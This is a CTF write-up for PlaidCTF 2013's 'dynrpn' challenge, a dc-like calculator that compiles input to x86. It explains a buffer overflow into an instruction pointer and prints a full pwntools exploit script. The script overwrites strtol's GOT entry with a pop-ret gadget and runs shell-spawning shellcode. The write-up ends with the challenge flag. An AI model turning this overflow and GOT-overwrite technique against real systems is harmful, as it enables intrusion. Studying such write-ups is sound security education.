 ```yaml
---
title: dynrpn - PlaidCTF 2013
author: IdolfHatler
layout: post
published: true
date: 2013-05-06 22:55:10
---
```


Challenge description:

> <pre>`dc` runs too slowly for my tastes.dynrpn running at 107.22.129.12:49630</pre>

This service was a clone of the dc tool, which is a stack based calculator. It
parses an entered line, compiles it to x86 floating point instructions and then
runs it. It does this by allocating a struct using mmap(2). The
struct looks something like this:

```c
struct {
    char instr_arr[2000];
    char spill[2000];
    char frstor_data[108];
    char *instr_pointer;
    dword field_1010;
    dword will_underflow;
}
```

The instr_arr is used for the compiled x86-instructions. The only other relevant
field is the instr_pointer, which is supposed to point into the instr_arr.

Our exploit works by overflowing from the instr_arr into the instr_pointer. We
set the instr_pointer to just before the strtol in the global offset table, so
that we can redirect it to a pop-ret gadget:

```python
from pwn import *
context('i386', 'linux')
HOST = '107.22.129.12'
PORT = 49630

r = rop.ROP("./dynrpn-55ac9afa75b1cbad2daa431f1d853079d5983eed")
p = process("./dynrpn-55ac9afa75b1cbad2daa431f1d853079d5983eed", timeout=None)
#p = remote(HOST, PORT)

popret = r._gadgets['popret'][1][0]

code  = "0 "                             # push a 0 to the stack
code += "0*"*291                         # create a lot of instructions
code += "@"*9                            # fix the alignment
code += str(r.got['strtol']-16)          # overwrite with address of .plt.strtol
code += " " + str(popret)                # overwrite .plt.strtol with a popret
code += " " + asm(shellcode.sh())
p.sendafter('dynrpn', code + "\n")
p.interactive()
```

Key: d0ubl3_ra1nb0w_fl0ting_in_the_sky
